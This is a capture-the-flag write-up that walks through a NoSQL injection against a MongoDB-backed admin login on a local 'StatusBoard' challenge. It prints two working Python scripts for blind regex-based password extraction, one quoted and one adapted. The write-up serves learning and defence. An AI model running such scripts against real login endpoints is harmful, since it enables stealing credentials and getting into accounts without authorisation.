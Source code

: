 ## Investigation

The problem described a status page that showed the statuses of different parts of a project.
They gave us the code for this problem and I've included it here if you wanted to try it yourself. Check it out in Local Code.

On opening up the site you're presented with this page.

![Landing-Page](Images/StatusBoard-Landing.png)

The first thing to interact with is the admin login button in the top right. Clicking on that navigates to a simple login page.

![Admin-Login](Images/StatusBoard-Admin-Login.png)

At this point it was time to look at the code. First thing to do is always search for the flag and you'll see that it's just the 
password of the admin user. 

![Flag-Code](Images/StatusBoard-Flag-Code.png)

You'll see there that they're using MongoDB to create a user with 'admin' as the username. Important to note here that standard SQL 
injection wouldn't work because they're not actually using raw SQL statements anywhere.

Going through the code further, you find the endpoint used to check the login data.

![Endpoint-Code](Images/StatusBoard-Endpoint-Code.png)

I wasa bit out of my element here. I was very familiar with SQL injection exploits but haven't done many exploits on MongoDB or other
NoSQL database programs.

It wasn't until I did more research that I found a whole category of exploits called NoSQL injection. Big thanks to this article
for giving me a primer on them (https://nullsweep.com/a-nosql-injection-primer-with-mongo/).

It was there I learned that non-sanitized form fields can be used to run some regex. Sure enough, you can login to the admin by 
putting in a regex condition that'll evaluate to true. 

The problem here wasn't logging into admin though. I needed the password of the admin user. To do so I could write a regex script that
checks if the password starts with character. If I get a positive response, then I can fix that and add another character until I get
the whole flag.

## Solution

Searching around a bit more, I found a Github repository that contains a ton of useful payloads and scripts for any kind of exploit. 
I used their python script on blind NoSQL injection but they have plenty other kinds of vulnerabilities covered. You can find their
code here (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#blind-nosql).

Their code:
```
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

I made a couple changes to fit this problem.

As we know the username is admin, we don't have to do any equality checks to figure out the username. 

We also know what a positive response will look like (the endpoint code shows that it returns a json with a logged parameter = 1) so 
we can just check for that.

Finally, we know the flag starts with "HTB{" so we can start with that and skip a few characters. The final code is:

```
import requests
import string

url = "http://localhost:1339/api/login"
headers = {"content-type": "application/json"}

flag = list("HTB{")


while True:
    for character in (string.printable):
        if character not in ["*", "+", ".", "?", "|", '"',  '\\']:
            print(f"trying {''.join(flag) + character}")

            payload = (
                '{"username": {"$eq": "admin"}, "password": {"$regex": "^%s" }}' % ("".join(flag) + character,)
            )

            r = requests.post(url, data=payload, headers=headers)

            if(r.json() == {"logged":1,"message":"User authenticated successfully!"}):
                flag.append(character)
                break
            
```

Running this script builds the flag character by character until you have the whole thing. 

![Final-Flag](Images/StatusBoard-FinalFlag.png)

This was the first time I've done a NoSQL injection. It definitely made me more wary of all the times I've used NoSQL programs
in my own projects.